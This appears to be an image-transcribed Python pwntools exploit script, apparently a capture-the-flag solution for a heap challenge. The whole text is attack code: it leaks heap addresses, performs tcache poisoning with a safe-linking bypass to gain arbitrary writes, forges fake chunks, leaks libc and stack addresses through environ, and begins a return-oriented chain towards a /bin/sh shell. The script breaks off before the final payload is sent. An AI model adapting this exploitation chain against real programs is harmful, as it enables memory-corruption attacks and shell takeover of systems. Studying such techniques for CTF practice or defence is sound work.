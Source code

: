 ```py
menu()

malloc(19)
free(19)
leak = int(read(19)[:5][::-1].hex()+'000', 16)
log.info(f'heap Leak: {hex(leak)}')

# start to do tcache poisoning
# do arb write twice for fake chunk
malloc(18, b"enlarge the tcache counts")
malloc(17, b"enlarge the tcache counts1")
malloc(16, b"enlarge the tcache counts2")

malloc(0, b"a"*0x10)
malloc(1, b"b"*0x10)
malloc(2, b"c"*0x10)


free(18)
free(17)
free(16)

free(0)

free(1)
free(2)
target = leak + 0xa0
fake_fd = target^(target//0x1000)

update(2, p64(fake_fd) + b'\x00'*0x10)

malloc(3, b"a"*0x10)
malloc(4, p64(leak + 0x310))

malloc(5, p64(0) + p64(0x501))

update(4, p64(leak + 0x810))

malloc(6, p64(0) + p64(0x21) + p64(0)*2 + p64(0) + p64(0x21))

free(16)

rosa_read(16)
libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = libc_leak - 0x203b20
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc_base))

menu()
environ_addr = libc_base + libc.symbols['environ'] - 0x18

update(4, p64(environ_addr))
malloc(7)
rosa_read(7)

leaks = p.recv(0x20)
environ_addr = u64(leaks[0x18: 0x24].ljust(8, b'\x00'))
log.info("environ leak: " + hex(environ_addr))
# 0x7fff02f44b78 0x7fff02f44ca8
ret_addr = environ_addr - 0x130 - 0x8

pop_rdi_ret = libc_base + 0x10f75b
binshell_addr = libc_base + 0x1cb42f
```
